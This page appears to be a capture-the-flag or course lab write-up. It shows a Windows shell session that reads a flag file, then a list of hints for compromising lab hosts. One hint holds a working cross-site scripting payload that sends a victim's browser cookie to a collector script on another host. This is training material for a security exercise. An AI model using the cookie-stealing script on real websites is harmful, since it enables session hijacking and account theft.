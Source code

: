 Z:\>dir
dir
 Volume in drive Z has no label.
 Volume Serial Number is 0422-A4FA

 Directory of Z:\

05/05/2013  10:49 AM    <DIR>          firefox
05/05/2013  11:58 AM                67 flag2.txt
06/22/2011  01:07 PM    <DIR>          inetpub
05/30/2003  04:21 AM            60,416 lads.exe
02/18/2007  01:31 AM            94,720 msizap.exe
07/13/2009  11:20 PM    <DIR>          PerfLogs
10/17/2017  05:24 PM    <DIR>          Program Files
05/05/2013  06:50 AM    <DIR>          Program Files (x86)
06/11/2013  03:55 PM    <DIR>          Users
10/17/2017  05:26 PM    <DIR>          Windows
               3 File(s)        155,203 bytes
               7 Dir(s)  13,933,326,336 bytes free

Z:\>type flag2.txt
type flag2.txt
Analyze the nc4 program from the course DVD in the Linux directory.
Z:\>
</pre>

  

### Random Clues from John

Hints for winning the game....

flag3.txt is the hardest flag to get.  flag3.txt is on 10.10.10.35.  There is
nothing on your course cd-rom to get you directly to root on 10.10.10.35

The bonus flag (bonusflag.txt) tells you how to get root on 10.10.10.35.  The
bonus flag is located on 10.10.10.15, but it is hidden.

You cannot access NetBIOS/SMB on 10.10.10.15 directly.  But you can access it
indirectly.

There is another way to win the game....

10.10.10.15 has a browser with a nice cookie

10.10.10.35 is vulnerable to XSS attacks

Here is a cookie-stealing browser script, that will pass a cookie to the
machine 10.10.75.68:

`<script>document.location='http://10.10.75.68:8088/cgi-bin/grab.cgi?'%2bdocument.cookie;</script>`

There is another way to win the game....

10.10.10.15 has a vulnerable browser, with a nice cookie

There is another way to win the game....

You have to find the honey to feed the bear.  The honey is a password file; the
bear is 10.10.10.35.
